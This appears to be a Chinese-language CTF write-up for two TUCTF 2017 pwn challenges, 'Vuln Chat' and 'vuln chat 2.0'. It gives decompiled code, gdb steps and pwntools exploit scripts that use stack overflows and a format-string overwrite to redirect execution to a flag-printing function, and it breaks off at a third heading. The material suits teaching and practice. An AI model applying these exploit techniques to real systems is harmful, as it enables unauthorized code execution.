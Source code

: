 # TUCTF 2017 - Notes

## Vuln Chat

保護只有開 DEP ，先用 ida pro 看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char msg[20]; // [sp+3h] [bp-2Dh]@1
  char username[20]; // [sp+17h] [bp-19h]@1
  int format; // [sp+2Bh] [bp-5h]@1
  char v7; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  format = 's03%';
  v7 = 0;
  __isoc99_scanf(&format, username);
  printf("Welcome %s!\n", username);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", username);
  __isoc99_scanf(&format, msg);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```

可以看到有兩次 scanf("%30s")

然後有一個 function 是 printFlag() ，他可以 cat flag.txt

所以思路就是可以 overflow 後跳 printFlag() ，但 scanf("%30s") 不夠蓋到 eip

所以要先改 scanf 的 format  

先用 gdb break 在第一個 scanf() 上面看位址，然後輸入很大的字
```
Guessed arguments:
arg[0]: 0xffffd563 ("%30s")
arg[1]: 0xffffd54f --> 0xfb53dcf7 
```

可以知道在20 - 24 可以蓋到 format

所以流程是，第一次 scanf() 蓋好 format 的值，第二次時 overflow 跳函數

可以先用 gdb 試試看有沒蓋到 format 
```
gdb-peda$ r <<< $(python -c 'print "a"*20 + "%s\n" + "aaaa"')
```

之後看要多少可以蓋到 eip
```
gdb-peda$ r <<< $(python -c 'from pwn import * ; print "a"*20 + "%s\n" + cyclic(100)')
```

可以知道 49-53 可以蓋到 eip

payload:
```
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'
r = remote('127.0.0.1',1234)
target = 0x0804856b
payload = 'a'*20 + "%s"
r.sendlineafter('username: ',payload)
payload2 = 'a'*49 + p32(target)
r.sendlineafter(': ',payload2)
r.interactive()
```

## vuln chat 2.0

保護只有開 DEP 的 x86 程式，且一樣有一個 function 是 printFlag() 可以 cat flag.txt

然後用 ida pro 看一下 doThings()
```c
int doThings()
{
  char buf[20]; // [sp+1h] [bp-27h]@1
  char name[15]; // [sp+15h] [bp-13h]@1

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", name);
  printf("Welcome %s!\n", name);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", name);
  read(0, buf, 45u);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```

第一次輸入 name 那邊沒啥意義，第二次輸入buf 的長度最長是 45，而 buf 長度是 39

剛好可以蓋到 eip 最低 1 bytes ，然後看一下 printFlag 和 eip 的地址
```
0x08048672  printFlag
0x0804863c  ret
```

可以看到只差最後一個 bytes ，所以 payload:
```python
#!/usr/bin/env python
from pwn import * 
r = remote('127.0.0.1',1234)

flag = '\x72'
r.sendlineafter('username: ', 'aaaa')
payload = "a"*43 + flag
r.sendafter('aaaa: ', payload)
r.interactive()
```

## guestbook

保護開了 NX 和 PIE 的 x86 程式